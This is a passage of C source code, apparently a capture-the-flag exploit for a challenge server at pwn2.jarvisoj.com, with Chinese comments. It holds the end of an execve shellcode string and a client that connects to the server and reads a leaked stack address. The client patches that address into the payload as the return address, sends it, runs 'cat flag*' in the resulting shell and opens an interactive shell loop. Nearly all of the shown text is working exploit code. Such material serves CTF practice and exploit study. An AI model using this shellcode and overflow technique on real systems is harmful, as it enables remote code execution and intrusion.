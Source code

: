 ```c
					"\x89\xe3"
					"\x50"
					"\x89\xe1"
					"\x89\xe2"
					"\xb0\x0b"
					"\xcd\x80";

const char *remote = "pwn2.jarvisoj.com";
short port = 9877;

int SendPayload(char* payload, int length)
{
	//
	char address[INET_ADDRSTRLEN+1];
	struct hostent *host = gethostbyname(remote);
	inet_ntop(AF_INET, host->h_addr_list[0], address, INET_ADDRSTRLEN);
	printf("resolved host: %s->%s\n", remote, address);

	/*创建套接字，指定协议族为IPv4，创建字节流套接字，使用TCP协议*/
	int socketfd = socket(AF_INET, SOCK_STREAM, 0);
	struct sockaddr_in serverAddr;
	memset(&serverAddr, 0, sizeof(struct sockaddr_in));

	/*指定连接目标的端口，IP地址*/
	serverAddr.sin_family = AF_INET;
	serverAddr.sin_port = htons(port);
	inet_pton(AF_INET, address, &serverAddr.sin_addr);

	/*三次握手*/
	int ret = connect(socketfd, (struct sockaddr*)&serverAddr, sizeof(struct sockaddr_in));

	/*打印连接状态，0为成功*/
	printf("ret code: %d\n",ret);

	/*接收服务器返回的局部变量的地址*/
	char *buffer = (char*)malloc(1024);
	memset(buffer, 0, 1024);
	recv(socketfd, buffer, 1023, 0);

	/*将字符串形式的数值转为整数*/
	const char *pstrStart = strstr(buffer, "0x");

	long pointer = strtol(pstrStart+2, 0, 16);
	
	/*将返回地址设为局部变量的地址，此地址即为shellcode开始的地址*/
	memcpy((char*)(payload+length-5), &pointer, 4);

	/*发送payload*/
	send(socketfd, payload, length, 0);
	
	/*此时服务端已运行了一个shell，发送系统命令，查看flag*/
	const char *command = "cat flag*\n";
	send(socketfd, command, strlen(command)+1, 0);
	recv(socketfd, buffer, 1023, 0);
	printf(buffer);
	fflush(stdout);
	
	/*交互式shell*/
	while(1)
	{
		/*接收用户输入的命令*/
		char *userCommand = (char*)malloc(200);
		memset(userCommand, 0, 200);
```